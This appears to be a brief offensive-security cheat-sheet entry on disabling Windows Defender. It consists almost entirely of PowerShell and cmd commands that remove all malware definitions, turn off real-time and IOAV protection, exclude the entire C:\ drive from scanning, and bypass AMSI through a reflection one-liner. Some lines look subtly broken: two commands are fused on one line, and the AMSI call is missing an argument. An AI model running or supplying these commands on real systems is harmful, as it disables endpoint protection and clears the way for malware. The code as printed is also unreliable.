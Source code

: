 # Disable Defender

**Description:** This entry describes how to disable Defender on a system

**Requirements:** cmd (windows), Powershell

## Disabling defender from the command line

```
"c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

Disabling defender  and remove definitions with mpcmdrun.exe

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable Defender(causes alert on Desktop)(Can be run with psexec)

```
Add-MpPreference -ExclusionPath "c:\"
```

Add exclusion path to Defender

```
"[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonePublic,static').SetValue(,True)"
```

Turn off AMSI
  
## References
* none